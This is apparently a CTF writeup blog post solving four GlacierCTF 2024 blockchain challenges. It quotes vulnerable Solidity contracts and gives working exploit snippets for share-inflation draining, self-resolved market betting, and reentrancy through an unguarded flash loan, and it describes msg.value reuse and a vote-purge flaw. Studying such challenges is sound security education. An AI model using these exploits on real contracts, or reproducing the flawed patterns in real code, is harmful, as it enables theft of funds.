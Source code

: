 ```yaml
---
layout: post
title:  GlacierCTF 2024 Blockchain challenges
date:   2024-11-22 -0700
description: GlacierCTF 2024 - Blockchain
tags: [GlacierCTF, Blockchain, Writeup]
exclude: false
---
```


### Note

I've included all 3 challenges that I solved in one writeup because solutions are somewhat small.

## Drainme

We are given a `ChallengeContract` instance, which has following functions:

```solidity
function depositEth() public payable {
  uint256 value = msg.value;
  uint256 shares = 0;

  require(value > 0, "Value too small");

  if (totalShares == 0) {
      shares = value;
  } else {
      shares = (totalShares * value) / address(this).balance;
  }

  totalShares += shares;
  balances[msg.sender] += shares;
}

function withdrawEth(uint256 shares) public {
  require(balances[msg.sender] >= shares, "Not enough shares");

  uint256 value = (shares * address(this).balance) / totalShares;

  totalShares -= shares;
  balances[msg.sender] -= shares;

  (bool success, ) = address(msg.sender).call{value: value}("");
  require(success, "ETH transfer failed");
}
```

We are also given another contract called `SharesBuyer` which initially receives some amount of ether from the `Setup` contract and then can either deposit its full balance to `CallengeContract` or receive ether from someone. Following code successfully exploits the contract:

```solidity
c.depositEth{value: 1}();
sb.buyShares();
c.withdrawEth(c.balances(msg.sender));
```

Here `c` is a given `ChallengeContract` and `sb` is a given `SharesBuyer` contract. `address(this).balance` is updated before the function execution so after the first two lines are executed, `totalShares` is **1**. When the contract calculates how much to withdraw, it will get `value = 1 * address(this).balance / 1`, so it will give us its whole balance.

## FrozyMarket

We are given a `FrozyMarket` contract instance, the functionality of which is to create contract, determine a winning boolean value upon being resolved and let user claim winnings. For this challenge following code works:

```solidity
f.createMarket("pwned", 0);
f.bet{value: 0.5 ether}(1, false);
f.resolveMarket(1, false);
f.claimWinnings(1);
```

Even though contract creates 1 market initially it also allows us to create as many markets as we want. So, if we create one market and set its `resolvedBy` timestamp to 0 (so that we can resolve it immediately), we can later set `false` as the winning bet.


## ArcticVault

The challenge gives us an `ArcticVault` contract instance, which implements multicall to save gas. This challenge can be exploited in 2 ways. The way I solved is unintended. Here's the exploit contract:

```solidity
contract Exploit {
  Setup s;
  ArcticVault public a;
  bool once = true;

  constructor(address _s) payable {
    s = Setup(_s);
    a = ArcticVault(s.TARGET());
  }

  function exploit() public {
    a.flashLoan(1 ether);
    a.withdraw();
  }

  fallback() external payable {
    if (once) {
      once = !once;
      a.flashLoan(0);
      a.deposit{value: 1 ether}();
    }
  }
}
```

This contract exploits the fact that `flashLoan` function is not protected by `reentrancyGuard`. If we call it twice, after the second call we can call `deposit` (which is protected by `reentrancyGuard` but we've set it to `false` from the previous `flashLoan` call) and deposit the loaned amount back. This basically means that we have tricked contract into thinking we've deposited our own balance while in reality we've deposited its own balance back. After, this we can simply withdraw and get the flag.

### Intended Exploit

But what's the point of adding multicall functionality to the contract if we didn't need to use it? Intended way to exploit this would have been to abuse `msg.value` reuse in, for example, `muticallThis` function and `deposit` twice while only paying once.


## Voteme

My teammate solved this one but I thought I would just briefly state what the vulnerability is in this challenge. When a violator is detected, contract purges the votes of a proposal for which it detected the violator. This means that if we create many contracts that vote for one **real** proposal once and for another proposal twice (or more times), they will be detected on the second proposal (via calling `checkConsesus`) and their vote for the first proposal vould stay. This way we can increase votes for the proposal while maintaining the same number of stakers.
